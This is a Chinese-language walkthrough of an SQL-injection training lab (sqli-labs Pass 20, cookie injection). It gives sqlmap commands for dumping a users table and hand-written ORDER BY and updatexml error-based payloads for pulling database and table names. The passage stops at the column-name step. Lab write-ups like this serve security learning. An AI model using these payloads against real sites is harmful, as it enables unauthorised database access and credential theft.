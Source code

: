 ```bash
检测注入点
sqlmap -r 2.txt --batch --level 4
爆破数据库名
sqlmap -r 2.txt --batch --level 4 --current-db
爆破数据表名
sqlmap -r 2.txt --batch --level 4 -D "security" --tables
爆破字段内容
sqlmap -r 2.txt --batch --level 4 -D "security" -T "users" --dump
```

# Pass20

```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
```

登录之后发现有很明显的**cookie**提示

> YOUR USER AGENT IS : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
> YOUR IP ADDRESS IS : 192.168.31.119
> DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
> YOUR COOKIE : uname = admin and expires: Wed 16 Nov 2022 - 19:23:44
> Your Login name:admin
> Your Password:admin
> Your ID:8

登录之后刷新页面，一定要保证cookie还在存在的前提下进行抓包 &#x20;
`uname = admin' order by 3-- +`
`uname=admin' order by 4-- +`

> Issue with your mysql: Unknown column '4' in 'order clause'

3个字段数 <a name="NTGzZ"></a>

# 报错注入

<a name="X6iZN"></a>

## 爆破数据库名

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,database(),0x7e),1)--+` <a name="DoliG"></a>

## 爆破数据表名

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)--+` <a name="zblHG"></a>

## 爆破字段名
